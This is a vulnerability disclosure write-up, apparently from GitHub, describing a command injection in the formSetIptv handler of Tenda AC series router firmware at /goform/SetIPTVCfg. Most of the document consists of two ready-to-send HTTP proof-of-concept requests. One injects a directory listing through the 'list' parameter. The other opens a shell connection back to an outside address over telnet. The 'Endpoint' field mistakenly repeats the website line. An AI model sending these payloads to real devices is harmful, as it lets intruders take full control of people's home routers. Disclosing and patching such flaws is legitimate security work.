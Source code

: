 # Tenda AC Series Routers Command Injection in formSetIptv

## Overview
Tenda AC Series Routers (e.g., AC15, AC23) are consumer-grade wireless routers supporting IPTV configuration, firewall, and multi-WAN features. A command injection vulnerability exists in the formSetIptv function, which handles requests to the /goform/SetIPTVCfg endpoint. Attackers can inject arbitrary system commands via the list or vlanId parameters, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)


## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC Series Routers
- **Firmware**: Tenda AC6V1.0 V15.03.05.19
- **Firmware Download**: [https://tenda.com.cn/material/show/2681]
- **Endpoint**: `- **Website**: [https://www.tenda.com.cn/`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)


### Description
The formSetIptv function processes POST requests to /goform/SetIPTVCfg. It extracts user-controlled parameters list and vlanId via sub_2B794 (a parameter parsing function) and passes them to the sub_ADBC0 helper function.

In sub_ADBC0, these parameters are directly interpolated into nvram set commands (e.g., nvram set adv.iptv.stballvlans="%s") without any input sanitization. The commands are executed via doSystemCmd, a function that runs system commands directly.

By injecting special characters (e.g., "; , #), attackers can escape the quoted context of the nvram command and execute arbitrary system commands on the router.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)

## Proof of Concept (PoC)

### PoC 1: List Root Directory (`ls /`)
```http
POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; ls /"
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

### PoC 2: Reverse shell
```POST /goform/SetIPTVCfg HTTP/1.1
Host: 192.168.x.x
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 38

list=abc"; telnet 192.168.x.x 9999"

```
![PoC 2 Result: Root Directory Listing](./imgs/3.png)
